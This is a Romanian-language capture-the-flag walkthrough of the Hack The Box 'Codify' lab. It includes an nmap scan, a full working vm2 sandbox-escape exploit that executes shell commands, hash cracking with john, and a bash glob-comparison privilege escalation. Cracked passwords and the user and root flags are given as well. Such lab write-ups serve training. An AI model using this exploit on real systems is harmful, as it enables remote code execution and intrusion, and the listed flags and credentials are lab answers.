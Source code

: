 1. Scanam masina ca sa gasim porturile deschise pe masina
```bash
nmap -sSCV -T 4 -p- -oN /home/h1p/HackTheBox/Labs/codify.nmap.scan 10.10.11.239
```
![[Pasted image 20231109143707.png]]
Vedem 2 porturi deschise 22 [[ssh]] si 80 [[http]]
2. Adaugam in fisierul `/etc/hosts` hostul nostru `10.10.11.239    codify.htb`
![[Pasted image 20231109143834.png]]
3. Putem vedea ce fel de framework lucreaza aplicatia noastra.
![[Pasted image 20231110112419.png]]
Vedem si codul sursa
![[Pasted image 20231110112514.png]]
Avem si versiune exacta la acest framework `vm2 3.9.16`
4. Pe google facem un search pentru vulnerabilitatea data ca sa vedem daca nu gasim o vulnerabilitate.
![[Pasted image 20231110112654.png]]
`Proof of concept` este singur codul pentru exploit din emaginea mai sus vedem ca este vulnerabil si este si exploitul aici -> https://gist.github.com/leesh3288/381b230b04936dd4d74aaf90cc8bb244
```js
const {VM} = require("vm2");
const vm = new VM();

const code = `
err = {};
const handler = {
    getPrototypeOf(target) {
        (function stack() {
            new Error().stack;
            stack();
        })();
    }
};
  
const proxiedErr = new Proxy(err, handler);
try {
    throw proxiedErr;
} catch ({constructor: c}) {
    c.constructor('return process')().mainModule.require('child_process').execSync('touch pwned');
}
`

console.log(vm.run(code));
```
In loc de `touch pwned` punem orice commanda care dorim sa se execute.
![[Pasted image 20231110113009.png]]
Nu putem primi un revers shell din care motive nu stiu.
![[Pasted image 20231110113208.png]]
Facem in felul urmator:
a) Rulam un server cu ajutorul lui [[python3]] 
![[Pasted image 20231110115301.png]]
b) Acesam shell sil transmitem in bash
![[Pasted image 20231110115329.png]]
c) Vualea avem si shell-ul 
![[Pasted image 20231110115359.png]]
d) Dar nu avem flagul de user deci trebuie sa primim cumva aces la utilizatorul `joshua`
5. Am gasit ceva dar este in forma de hash:
![[Pasted image 20231110120914.png]]
```hash
joshua$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2
```
6. Cu ajutorul la [[john]] putem sa spargem parola:
```bahs
john -w=/usr/share/wordlist.txt hash.joshua
```
![[Pasted image 20231110121448.png]]
Parola este ->`spongebob1`
7. Ne logam ca `joshua` cu [[ssh]] care este pe portul 22.
`ssh`
![[Pasted image 20231110121709.png]]
8. Am gasit si vectorul ca sami ridic privilegile.
![[Pasted image 20231110121823.png]]
9. Am uitat sa inregistres flagul pentru user 
User flag -> `23f9cc65993bc189e354dab8f860f41c`
![[Pasted image 20231110122009.png]]
10. Continuam acesta este continutul scriptului nostru:
```bash
#!/bin/bash  
DB_USER="root"  
DB_PASS=$(/usr/bin/cat /root/.creds)  
BACKUP_DIR="/var/backups/mysql"  
  
read -s -p "Enter MySQL password for $DB_USER: " USER_PASS  
/usr/bin/echo  
  
if [[ $DB_PASS == $USER_PASS ]]; then  
       /usr/bin/echo "Password confirmed!"  
else  
       /usr/bin/echo "Password confirmation failed!"  
       exit 1  
fi  
  
/usr/bin/mkdir -p "$BACKUP_DIR"  
  
databases=$(/usr/bin/mysql -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" -e "SHOW DATABASES;  
" | /usr/bin/grep -Ev "(Database|information_schema|performance_schema)")  
  
for db in $databases; do  
   /usr/bin/echo "Backing up database: $db"  
   /usr/bin/mysqldump --force -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" "$db" | /usr/bi  
n/gzip > "$BACKUP_DIR/$db.sql.gz"  
done  
  
/usr/bin/echo "All databases backed up successfully!"  
/usr/bin/echo "Changing the permissions"  
/usr/bin/chown root:sys-adm "$BACKUP_DIR"  
/usr/bin/chmod 774 -R "$BACKUP_DIR"  
/usr/bin/echo 'Done!'
```
Din scriptul de mai sus vedem ca variabila DB_PASS se transmite in clear text aceasta inseamna ca noi putem so vedem cu ochi dar in output ea nu este trebuie sa monitorizam procesele pentru a vedea acest lucru.
11. pspy64 ne permite acest lucru.
![[Pasted image 20231110123433.png]]
12. Dar mai este o problema el verifica cu un if daca passwor-durile sunt drepte si in cazul dat trebuie sa cunoastem cum se efectueaza aceste conditii.
In cazul nostru `$DB_PASS == $USER_PASS` nu se folosecte virgule la variabele deci daca facem constructia data de felul  `$DB_PASS == *` ea va returna `true`.
![[Pasted image 20231110124008.png]]
Acest lucru lucreaza lol kek
Avem si parola pentru root:
![[Pasted image 20231110124057.png]]
`-p` - este flag el nu este simbol al parolei
Parola pentru root `kljh12k3jhaskjh12kjh3`
![[Pasted image 20231110124207.png]]
Root flag `192de51b83fb386f97f3594ca94ec011`
